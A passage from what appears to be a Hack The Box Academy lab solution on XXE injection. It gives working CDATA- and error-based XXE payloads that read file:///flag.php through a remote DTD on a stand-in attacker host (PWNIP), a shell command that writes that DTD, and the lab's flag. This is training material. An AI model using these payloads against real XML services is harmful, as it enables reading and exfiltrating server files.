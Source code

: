 ```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://PWNIP:8000/XXE.dtd">
  %xxe;
]>
```

![[HTB Solutions/CBBH/z. images/a3f7b735860a89fef75358fa6957ca65_MD5.jpg]]

Before forwarding the modified intercepted request, students need to intercept the response:

![[HTB Solutions/CBBH/z. images/07c62812c0fc1d6b1f15bf4c1ca68588_MD5.jpg]]

After forwarding the request and intercepting the response, students will find the flag `HTB{3rr0r5_c4n_l34k_d474}` within it:

![[HTB Solutions/CBBH/z. images/e0ff94c2ecc158e5686b90cbbd7c68a6_MD5.jpg]]

To use the error-based method, students first need to write the following error-causing entity lines to a DTD file on Pwnbox/`PMVPN`:

Code: xml

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
EOF
```

Subsequently, students need to navigate to `/error/` and fill dummy data in the form as with the `CDATA` method then intercept the request using `Burp Suite`:

![[HTB Solutions/CBBH/z. images/adbc37ae0bff7264fd48484114731e75_MD5.jpg]]

Students then need to append the following XML data after `<?xml version="1.0" encoding="UTF-8"?>`:

Code: xml

```xml
<!DOCTYPE email [
<!ENTITY % remote SYSTEM "http://PWNIP:PWNPO/XXE.dtd">  
%remote;
%error;
]>
```

After instructing `Burp Suite` to intercept the response to this request and forwarding it, students will attain the flag `HTB{3rr0r5_c4n_l34k_d474}` within it (students also need to make sure that their HTTP server from the CDATA method is still running):
